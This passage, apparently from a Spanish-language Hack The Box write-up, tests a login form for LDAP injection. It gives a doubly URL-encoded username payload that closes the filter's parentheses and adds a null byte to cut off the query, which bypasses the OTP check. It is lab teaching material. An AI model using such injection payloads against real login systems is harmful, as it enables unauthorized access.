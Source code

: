 <img src="/writeups/assets/img/CTF-htb/7.png" alt="">

Parece ser vulnerable a ```LDAP Inyection```. Es probable que se esté empleando una estructura parecida a esta:

```null
(&
    (inputUsername=123)
    (inputOTP=123)
)
```

Lo que desconozco es cuantos campos tiene para cerrar el paréntesis final, así que voy a añadirlos manualmente, junto a un null byte para desplazar el resto de la query y que no entre en conflicto. Tienen que estar doblemente URL-encodeados, ya que si no la respuesta es vacía. Para tres, recibo datos

```null
inputUsername=rubbx%25%32%39%25%32%39%25%32%39%2500&inputOTP=123
```

<img src="/writeups/assets/img/CTF-htb/8.png" alt="">
